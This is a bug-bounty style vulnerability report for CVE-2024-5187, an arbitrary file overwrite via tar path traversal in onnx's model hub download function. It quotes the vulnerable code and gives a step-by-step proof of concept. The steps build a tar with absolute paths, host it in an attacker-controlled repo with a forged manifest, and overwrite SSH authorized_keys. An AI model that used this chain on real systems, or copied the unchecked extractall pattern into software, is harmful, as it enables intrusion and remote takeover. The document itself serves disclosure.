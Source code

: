 ```yaml
---
layout: post
title:  "Huntr(CVE-2024-5187): Arbitrary File Overwrite in onnx"
date:  2024-04-07 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr(CVE-2024-5187): Arbitrary File Overwrite in onnx

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

The [download_model_with_test_data](https://onnx.ai/onnx/api/hub.html#download-model-with-test-data) function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. This leads directly leads to a high impact regarding the integrity of files. An attacker could also abuse this to impact the availability, by deleting system files, personal files, or application files. Remote code execution is also possible through various means.

The vulnerable function is exposed through the `download_model_with_test_data` function, which is further used in the onnx framework, as well as can be imported easily.

This code snippet shows how the `download_model_with_test_data` function extracts a tar file downloaded from internet without performing any security checks.

```
def download_model_with_test_data(
    model: str,
    repo: str = "onnx/models:main", # change to attacker's repo
    opset: Optional[int] = None,
    force_reload: bool = False,
    silent: bool = False, # set silent to True
) -> Optional[str]:
    selected_model = get_model_info(model, repo, opset)

    local_model_with_data_path_arr = selected_model.metadata[
        "model_with_data_path"
    ].split("/")

    model_with_data_sha = selected_model.metadata["model_with_data_sha"]
    ...
    local_model_with_data_path = join(
        _ONNX_HUB_DIR, os.sep.join(local_model_with_data_path_arr)
    )

    if force_reload or not os.path.exists(local_model_with_data_path):
        os.makedirs(os.path.dirname(local_model_with_data_path), exist_ok=True)
        lfs_url = _get_base_url(repo, True)
        print(f"Downloading {model} to local path {local_model_with_data_path}")
        _download_file( # download model from github repository
            lfs_url + selected_model.metadata["model_with_data_path"],
            local_model_with_data_path,
        )
    else:
        print(f"Using cached {model} model from {local_model_with_data_path}")

    with open(local_model_with_data_path, "rb") as f:
        model_with_data_bytes = f.read()

    with tarfile.open(local_model_with_data_path) as model_with_data_zipped:
        # FIXME: Avoid index manipulation with magic numbers
        local_model_with_data_dir_path = local_model_with_data_path[
            0 : len(local_model_with_data_path) - 7
        ]
        model_with_data_zipped.extractall(local_model_with_data_dir_path) # just extract without any security checks

    return model_with_data_path
```

The Python documentation explains us that tarfiles may also have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar.gz /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar.gz` as onnx model to his own github repository. Besides, create file `ONNX_HUB_MANIFEST.json` with tar file path(`model_with_data_path`) and sha256 value(`model_with_data_sha`).

Create malicious model repo:

```
git lfs track "*.gz"
git add .
git commit -m 'add gz lfs models'
git push
```

the `ONNX_HUB_MANIFEST.json` metadata file example:

```
[
    {
        "model": "MNIST",
        "model_path": "validated/mnist-8.onnx",
        "onnx_version": "1.3",
        "opset_version": 8,
        "metadata": {
            "model_sha": "",
            "model_bytes": 26454,
            "tags": [
                "vision",
                "classification",
                "mnist"
            ],
            "io_ports": {
                "inputs": [
                    {
                        "name": "Input3",
                        "shape": [
                            1,
                            1,
                            28,
                            28
                        ],
                        "type": "tensor(float)"
                    }
                ],
                "outputs": [
                    {
                        "name": "Plus214_Output_0",
                        "shape": [
                            1,
                            10
                        ],
                        "type": "tensor(float)"
                    }
                ]
            },
            "model_with_data_path": "validated/hack.tar.gz",
            "model_with_data_sha": "786bb632aab30bb574f7f2bab991c56c7707f8d224845f85a16bce32e7980cac",
            "model_with_data_bytes": 26751
        }
    }
]
```
I have create one malicous repo for testing: [https://github.com/sunriseXu/onnx](https://github.com/sunriseXu/onnx)

If anyone now downloads model from online github repository, and `download_model_with_test_data` will extract the malicous tar file and overwrite files specified in tarfile by absolute path silently.

```
from onnx import ModelProto, hub
hub.download_model_with_test_data("mnist",repo="sunriseXu/onnx",force_reload=True,silent=True)
```

```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

tested in google colab: [https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing](https://colab.research.google.com/drive/1m1iJcfp-dETTr013HyYaYJsdetBa-7YA?usp=sharing)

![poc1](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc.png)

![poc2](https://raw.githubusercontent.com/sunriseXu/onnx/main/img/poc2.png)

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

SSH Access
On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

Web Servers
On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369](https://github.com/onnx/onnx/blob/4128a09009aa67622c6308c82fe4199813a71682/onnx/hub.py#L369)
